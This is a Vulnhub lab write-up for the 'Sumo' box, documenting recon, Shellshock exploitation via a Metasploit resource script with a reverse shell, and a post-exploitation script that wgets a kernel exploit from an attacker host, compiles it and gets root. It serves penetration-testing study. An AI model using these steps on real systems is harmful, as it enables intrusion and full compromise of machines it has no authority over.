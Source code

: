 # Vulnhub Writeup #5: Sumo

## Key lessons learned:
- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- Large desire to read approaches that didn't use Nikto to discover the mod-cgi vulnerability
-Modify shell path early on to avoid "missing" binaries with
`export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin `
## MITRE Att&ck Overview

![](2021-10-28-01-58-47.png)
MITRE ATT&CK matrix made with [Mitre-Attack-Navigator](https://mitre-attack.github.io/attack-navigator)

## Reconnaissance
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

####Techniques and procedures
- Opened up ZAP and crawled host's port 80 HTTP server; found nothing of note. 
- Nikto 
  - found this server was vuln to shellshock
  - was able to identify a directory /cgi-bin/test, as well as a file test.sh
    - I wasn'table to figure out a way to identify these files without Nikto, or what method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
- Gobuster ( #Crawling )
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [Reconnaissance](Reconnaissance.md) which was able to identify this folder, as well as a default "it works! file". From here there seem to be 2 ways to find the vector:
  1) Nikto
  2) Knowing that CGI is extremely vulnerable
No other write-ups I've found have illustrated using pure deduction to figure this vector out.

### Initial Access, Execution & Command and Control
Scanned for shellshock vulnerabilities in MSF (Searchsploit could've been used here as well):
```
search shellshock
```

The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an available msf module.

###### Metasploit Resource Script for exploitation
```
sudo msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set PAYLOAD payload/generic/shell_reverse_tcp
set TARGETURI /cgi-bin/test/test.cgi
set RHOST 172.16.2.44
set LPORT 4444
set CVE CVE-2014-6278
exploit
sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh
```
#MetasploitScripts


## ** Discovery | Collection | Exfiltration**
- Checked running processes with ps -aux. Didn't find anything noteworthy. 
- Home directory was also quite bare. 
- Checked listening connections which didn't find anything noteworthy. 
- Checked distro/kernel version and compared it against searchsploit, which turned up an exploit
- Finally just wrote a script that would execute post_enum for me at [Discovery](Discovery.md)

## Privilege Escalation
Simply looking up the kernel version in SearchSploit uncovered kernel exploit based LPE
```text 
searchsploit ubuntu 3.2.0 
```


### sumo_post.sh - privilege escalation script
```bash
# sumo_post.sh 
# move here for dirty work
cd /tmp
R="172.16.2.45"
wget $R/pwn.c
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Technical Issues Encountered
Encountered 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld)

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp

Tags
#vulnhub #linux